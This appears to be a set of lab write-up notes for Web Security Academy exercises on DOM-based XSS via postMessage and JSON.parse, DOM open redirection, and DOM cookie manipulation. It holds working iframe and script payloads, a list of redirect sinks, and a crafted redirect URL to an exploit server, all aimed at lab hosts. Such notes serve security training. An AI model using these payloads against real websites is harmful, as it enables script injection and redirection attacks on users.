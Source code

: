 ### LAB: DOM XSS using web messages and JSON.parse
Idea is the same as the above lab.

    <iframe
        src="https://0ad60066038f14938022803200b0008e.web-security-academy.net/"
        onload="sendJSONMessage()"
    ></iframe>
    <script>
        sendJSONMessage = () => {
            const iframe = document.querySelector("iframe");
            const message = {
            type: "load-channel",
            url: "javascript:print()",
            };
            iframe.contentWindow.postMessage(JSON.stringify(message), "*");
        };
    </script>


### LAB: DOM-based open redirection
- Sinks that leads to DOM-based open redirection:
    > location
    > location.host
    > location.hostname
    > location.href
    > location.pathname
    > location.search
    > location.protocol
    > location.assign()
    > location.replace()
    > open()
    > element.srcdoc
    > XMLHttpRequest.open()
    > XMLHttpRequest.send()
    > jQuery.ajax()
    > $.ajax()
- Notice the 'Back to blog' button contains a sink:
`onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'`
- This Regex `/url=(https?:\/\/.+)/.exec(location)` will match anything that starts with `url=http://` or `url=https://`
- Inject the exploit server URL as the parameter and click on the 'Back to blog' button to trigger the redirection: 
`?postId=6&url=https://exploit-0a9b008d03535d23803389b401f60016.exploit-server.net/exploit`

### LAB: DOM-based cookie manipulation
Notice that the value of `document.cookie` (which can be controlled via the `window.location`) is reflected in the `href` attribue of `<a>` in the next page we visit.
Use this script to first set the user to the malicious URL (with the `script` injected) then redirects to another page where the XSS occurs (using `onload` event and the `if` condition to prevent infinite loop):

    <iframe src="https://0a4300c303eb674d801062d20072008c.web-security-academy.net/product?productId=7'><script>print()</script>" onload="if(!window.x)this.src='https://0a4300c303eb674d801062d20072008c.web-security-academy.net/';window.x=1">